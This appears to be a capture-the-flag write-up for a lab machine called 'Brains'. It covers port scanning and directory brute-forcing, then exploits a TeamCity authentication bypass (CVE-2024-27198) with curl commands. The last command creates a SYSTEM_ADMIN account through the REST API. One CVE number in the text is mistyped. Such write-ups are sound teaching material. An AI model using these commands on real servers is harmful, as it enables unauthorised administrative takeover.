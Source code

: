 ```yaml
---
description: The city forgot to close its gate. - by Dex01, strategos and l000g1c
---
```


# Brains

Write up by Amir Lahlou

<div align="right"><figure><img src=".gitbook/assets/image.png" alt="" width="188"><figcaption></figcaption></figure></div>

### Recon

```
// nmap scan
nmap -sS -Pn
```

This gave us a few open ports,

```
PORT      STATE SERVICE
22/tcp    open  ssh
80/tcp    open  http
50000/tcp open  ibm-db2

```

Upon visiting the link we just get a header that says the site is under maintenance. There wasn't anything in the source code either.

Let's go ahead and try a directory bruteforce then.\


```
// Gobuster Directory Bruteforce

gobuster dir -u http://<IP> -w /usr/share/wordlists/dirb/common.txt -x php,html,txt -t 40 -o gobuster.txt
```



After the directory bruteforce finished up we don't see anything special so lets take a look at port 50000 from our nmap scan from earlier.

<div align="left"><figure><img src=".gitbook/assets/image (1).png" alt=""><figcaption></figcaption></figure></div>

### Enumeration

After visiting **`<IP>:50000/login.html`** we find a TeamCity login page running on **Version 2023.11.3 (Build 147512).**&#x20;



<figure><img src=".gitbook/assets/image (3).png" alt=""><figcaption></figcaption></figure>



With a quick google search we can find **JetBrains TeamCity CVE-2024-271-198 and CVE-2024-27199** on [Rapid7](https://www.rapid7.com/blog/post/2024/03/04/etr-cve-2024-27198-and-cve-2024-27199-jetbrains-teamcity-multiple-authentication-bypass-vulnerabilities-fixed/).&#x20;

<figure><img src=".gitbook/assets/image (4).png" alt=""><figcaption></figcaption></figure>

<pre class="language-msf"><code class="lang-msf"><strong>curl -ik 'http://10.201.44.80:50000/hax?jsp=/app/rest/server;.jsp'
</strong></code></pre>

<div align="left"><figure><img src=".gitbook/assets/VirtualBoxVM_9imy6r4bRM.png" alt=""><figcaption></figcaption></figure></div>

```
curl -ik http://10.201.44.80:50000/hax?jsp=/app/rest/users\;.jsp -X POST -H "Content-Type: application/json" --data "{\"username\": \"amiru\", \"password\": \"amiru\", \"email\": \"amiru\", \"roles\": {\"role\": [{\"roleId\": \"SYSTEM_ADMIN\", \"scope\": \"g\"}]}}"
```
